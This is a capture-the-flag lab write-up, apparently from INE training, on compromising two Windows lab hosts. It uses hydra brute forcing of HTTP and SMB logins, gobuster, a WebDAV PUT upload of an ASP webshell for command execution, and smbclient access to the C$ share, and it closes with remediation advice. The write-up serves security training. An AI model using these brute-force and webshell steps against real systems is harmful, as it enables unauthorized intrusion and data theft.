# CTF Report: System & Host Based Attacks (Windows, IIS & SMB)

**Date:** November 2025<br>
**Classification:** Host & Network Penetration Testing / System & Host Based Attacks<br>
**Targets:**
- Target 1: 10.2.28.186 (target1.ine.local) - IIS / WebDAV
- Target 2: target2.ine.local - SMB

## 1. Executive Summary

This assessment focused on two internal Windows hosts. **Target 1** was compromised via a dictionary attack against a misconfigured WebDAV service, leading to **Remote Code Execution (RCE)** through an ASP web-shell. **Target 2** was breached via SMB brute-forcing, granting administrative access to the file system. These vulnerabilities demonstrate the risks of weak credentials and improper service hardening.

## 2. Target 1: Reconnaissance & Web Exploitation

### Host Discovery

We verified connectivity to target1.ine.local. The TTL (Time To Live) of 125 indicates a Windows Operating System.

```bash
ping -c 4 target1.ine.local
```



### Service Enumeration

A full TCP port scan revealed a Windows Server running IIS 10.0, MSRPC, SMB, and Remote Desktop Services (RDP).

```bash
nmap -sV -p- 10.2.28.186
```



Specific enumeration of Port 80 showed an IIS default page protected by Basic Authentication (401 Unauthorized).

```bash
nmap -sV -sC -p 80,135,445,3389 10.2.28.186
```





### Credential Access (Hydra)

Facing a login prompt on Port 80, we performed a dictionary attack against the user "bob" using hydra.

- **Vector:** HTTP-GET Brute Force
- **User:** bob
- **Password Found:** password_123321

```bash
hydra -l bob -P /usr/share/wordlists/metasploit/unix_passwords.txt target1.ine.local http-get
```



The credentials allowed access to the default IIS landing page.



### Directory Enumeration

With credentials in hand, we enumerated the web directory structure using gobuster, discovering a /webdav directory.

```bash
gobuster dir -u http://target1.ine.local -w /usr/share/wordlists/dirb/common.txt -U bob --password password_123321
```



### WebDAV Access & Flag 1

We connected to the WebDAV share using the cadaver tool. Inside, we located and retrieved the first flag.

```bash
cadaver http://target1.ine.local
cat flag1.txt
```



### Remote Code Execution (RCE)

To escalate access, we exploited the WebDAV PUT method to upload a malicious ASP webshell (webshell.asp).

```bash
put /usr/share/webshells/asp/webshell.asp
```



### Post-Exploitation (Flag 2)

Accessing the webshell via the browser [http://target1.ine.local/webdav/webshell.asp], we executed commands on the underlying Windows system. Listing the C:\ directory revealed the second flag.

```bash
dir C:\
```



```bash
type C:\flag2.txt
```



---

## 3. Target 2: SMB Exploitation

### Service Attack

Target 2 was identified as an SMB server. We launched a brute-force attack against the SMB protocol targeting the "administrator" account.

- **User:** administrator
- **Password Found:** pineapple

```bash
hydra -L common_users.txt -P unix_passwords.txt smb://target2.ine.local
```



### SMB Enumeration (Flag 3)

Using smbclient with the compromised credentials, we accessed the administrative share (C$) and found Flag 3 in the root directory.

```bash
smbclient \\target2.ine.local\C$ -U Administrator 
ls 
get flag3.txt
```



### Lateral Movement & Flag 4

Navigating through the file system to the Administrator's Desktop, we located the final flag.


```bash
cd Users\Administrator\Desktop 
get flag4.txt
```



### Evidence Collection

Final verification of the captured flags on our local attacker machine.



---

## 4. Remediation Recommendations (Security+)

1. **Disable WebDAV:** If not strictly required for business operations, WebDAV should be disabled on the IIS server to reduce the attack surface.
2. **Strong Password Policy:** Both the "bob" and "administrator" accounts used weak, dictionary-based passwords. Implement a policy requiring complexity, length, and rotation (e.g., NIST 800-63B guidelines).
3. **Disable SMBv1/Restrict SMB:** Ensure SMB is not exposed to untrusted networks. Use SMB signing to prevent relay attacks and enforce account lockouts for brute-force attempts.
4. **Least Privilege:** The WebDAV user should not have write permissions to executable directories, nor should they be able to upload .asp or .aspx files (File Extension Filtering).